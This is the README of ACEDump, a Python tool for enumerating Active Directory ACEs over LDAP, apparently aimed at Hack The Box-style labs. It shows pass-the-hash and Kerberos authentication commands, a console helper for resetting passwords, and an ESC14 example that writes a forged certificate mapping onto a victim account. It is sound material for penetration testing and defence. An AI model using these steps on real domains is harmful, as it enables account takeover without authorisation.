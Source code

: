#######
ACEDump
#######

| Enumerate Active Directory ACEs using python3 ldap3 and impacket.

|

***************
Getting Started
***************

.. code-block:: bash

    pipx install git+https://github.com/charlesgargasson/acedump.git@main
    # pipx uninstall acedump
    # pipx upgrade acedump

    # sudo apt install -y libkrb5-dev
    # sudo yum install -y krb5-devel

    # DEV install
    # pipx install /opt/git/acedump --editable

|

.. code-block::

    options:
    -h, --help            show this help message and exit
    -s SERVER, --server SERVER
                            Domain controller IP/hostname
    -u USERNAME, --username USERNAME
                            Username
    -p PASSWORD, --password PASSWORD
                            Password
    -d DOMAIN, --domain DOMAIN
                            Domain name
    -b BASE_DN, --base-dn BASE_DN
                            Base DN, e.g. DC=domain,DC=com
    -k, --kerberos        Use Kerberos authentication
    --tls                 Use TLS
    -f FILTER, --filter FILTER
                            LDAP filter, e.g. (|(objectClass=user))
    -H HASHES, --hashes HASHES, --nthash HASHES
                            NT hash
    --aes AES             AES hash
    --cert CERT           Certificate file
    --certkey CERTKEY     Key file
    --certpass CERTPASS   Certificate password if any
    --userdn USERDN       User DN for certificate Auth
    --kdc KDC             KDC FQDN
    --port PORT           LDAP port
    -i, --interact        Connect and spawn python console
    --dontfixtime         Don't fix clock skew
    --pagesize PAGESIZE   Size of pagination, default:500
    -q, --quiet           Quiet output
    --debug               Enable debug output
    --allsid              Include all SID (low and default RIDs)
    -e, --exec            Exec python code from stdin

|

.. image:: demo/img1.png
  :width: 1200
  :alt: IMG1

|

***********
Credentials
***********

| ACEDump support NTLM, Kerberos, X509 certificates (no pfx support yet), NT hash, AES hash, user/password, TLS (636) and StartTLS (389).
| If you don't provide any hash or password, ACEDump will try a blank password.
|
| Kerberos auth require valid DNS entries.
| If no kerberos ccache set, ACEDump retrieve a new TGT.
| If no kerberos configuration set, ACEDump will use its own.

.. code-block:: bash

    # Kerberos CCACHE
    export KRB5CCNAME='USER.ccache'
    acedump -k -s DC01.BOX.HTB -u USER -d BOX.HTB 

    # Kerberos NTHash (etype23)
    acedump -k -s DC01.BOX.HTB -u USER -d BOX.HTB -H 31d6cfe0d16ae931b73c59d7e0c089c0

    # Kerberos AES
    acedump -k -s DC01.BOX.HTB -u USER -d BOX.HTB --aes 910e4c922b7516d4a17f05b5ae6a147578564284fff8461a02298ac9263bc913

    # Kerberos user/password
    acedump -k -s DC01.BOX.HTB -u USER -d BOX.HTB -p 'FooBar_123'

    # Certificate X509 PEM over TLS (636)
    acedump -s DC01.BOX.HTB -u USER -d BOX.HTB --cert user.crt --certkey user.key --tls

    # Certificate X509 PEM with StartTLS (389)
    acedump -s DC01.BOX.HTB -u USER -d BOX.HTB --cert user.crt --certkey user.key

    # NTLM (password or hash)
    acedump -s DC01.BOX.HTB -u USER -d BOX.HTB -H 31d6cfe0d16ae931b73c59d7e0c089c0
    acedump -s DC01.BOX.HTB -u USER -d BOX.HTB -p 'FooBar_123'

    # Anonymous (untested)
    acedump -s DC01.BOX.HTB

|

***
NTP
***

| ACEDump mock LDAP's clock using currentTime attribute and libfaketime (there is no NTP request).
| Use dontfixtime option if you want to deal with clock skew by yourself.

|

****
Exec
****

| ACEDump can execute python code from stdin after connection.
| The connection object is "conn".

.. code-block:: bash

    acedump -s 10.129.211.247 -u john -p Pototo_1 -e <<< 'print(conn)'
    cat script.py | acedump -s 10.129.211.247 -u john -p Pototo_1 -e

    cat <<'EOF'| acedump -s 10.129.211.247 -u john -p Pototo_1 -e
    conn.search(args.base_dn, '(SamAccountName=Administrator)', attributes=['*'])
    print(conn.entries)
    EOF

|

***********
Interactive
***********

| ACEDump start a python console after connection.
| The connection object is "conn"

|

.. code-block::

    $ acedump -s 10.129.211.247 -u john -p Pototo_1 -i -q

      █████╗  ██████╗███████╗██████╗ ██╗   ██╗███╗   ███╗██████╗ 
     ██╔══██╗██╔════╝██╔════╝██╔══██╗██║   ██║████╗ ████║██╔══██╗
     ███████║██║     █████╗  ██║  ██║██║   ██║██╔████╔██║██████╔╝
     ██╔══██║██║     ██╔══╝  ██║  ██║██║   ██║██║╚██╔╝██║██╔═══╝ 
     ██║  ██║╚██████╗███████╗██████╔╝╚██████╔╝██║ ╚═╝ ██║██║     
     ╚═╝  ╚═╝ ╚═════╝╚══════╝╚═════╝  ╚═════╝ ╚═╝     ╚═╝╚═╝     
                -- version 0.0.9 --

    ⚠️  LDAP clock in futur 2025-06-25 02:04:56 (-7199.31662 seconds)
    ✅ StartTLS
    ✅ Authenticated as u:BOX\john

    👾 INTERACTIVE MODE 👾

      search('administrator') # Search object using SID/DN/CN/SAN
      setpassword('administrator', 'password') # Change object password using SID/DN/CN/SAN
      deleted() # Search deleted object using SID/DN/CN/SAN
      restore('deleteduser') # Restore delete object using SID/DN/CN/SAN
      last() # Print conn.last_error and conn.result
      conn.entries # Print conn's last results

    Python 3.11.2 (main, Apr 28 2025, 14:11:48) [GCC 12.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    (InteractiveConsole)
    >>> print(conn)
    ldap://10.129.211.247:389 - cleartext - user: BOX.HTB\john - not lazy - bound - open - <local: 10.10.14.191:54227 - remote: 10.129.211.247:389> - tls started - listening - SyncStrategy - internal decoder

|

| Example to set VICTIM's altSecurityIdentities attribute for ESC14.

.. code-block:: bash

    target_dn = 'CN=victim,OU=Foobar,DC=box,DC=htb'
    issuer = 'DC=htb, DC=box, CN=box-DC01-CA'
    serial = '61:00:00:00:05:3d:d7:2a:1a:e6:6f:aa:f3:00:00:00:00:00:04'

    serial = ''.join(serial.split(':')[::-1])
    altSecurityIdentities = f"X509:<I>{issuer.replace(', ', ',')}<SR>{serial}"
    
    print(altSecurityIdentities)
    # X509:<I>DC=htb,DC=box,CN=box-DC01-CA<SR>040000000000f3aa6fe61a2ad73d0500000061

    import ldap3
    conn.modify(target_dn,{'altSecurityIdentities':[(ldap3.MODIFY_ADD, altSecurityIdentities)]})
    # Return True if changed

|

| Example to search user using SamAccountName attribute

.. code-block:: bash

    conn.search(args.base_dn, '(SamAccountName=administrator)', attributes=['*'])
    conn.entries

|


***************
TroubleShooting
***************

| LDAP3 (vanilla) don't support GSSAPI Privacy, some operations such as password changes may fail if StartTLS/TLS aren't supported by server
| https://offsec.almond.consulting/ldap-authentication-in-active-directory-environments.html